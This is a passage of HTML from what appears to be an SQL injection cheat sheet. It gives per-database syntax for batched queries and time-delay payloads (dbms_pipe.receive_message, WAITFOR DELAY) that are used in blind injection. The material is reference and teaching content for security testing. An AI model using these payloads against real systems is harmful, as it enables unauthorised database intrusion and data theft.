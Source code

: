                     Oracle
                </th>
                <td><code>
                    Does not support batched queries.
                </code></td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    QUERY-1-HERE; QUERY-2-HERE
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    QUERY-1-HERE; QUERY-2-HERE
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td><code>
                    QUERY-1-HERE; QUERY-2-HERE
                </code></td>
            </tr>
        </table>
        <div class="component-notes">
            <h4>Note</h4>
            <p>
                With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
            </p>
        </div>
        <h2 id="time-delays">Time delays</h2>
        <p>
            You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
        </p>
        <table class="is-nonresponsive-table">
            <tr>
                <th>
                    Oracle
                </th>
                <td><code>
                    dbms_pipe.receive_message(('a'),10)
                </code></td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    WAITFOR DELAY '0:0:10'
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL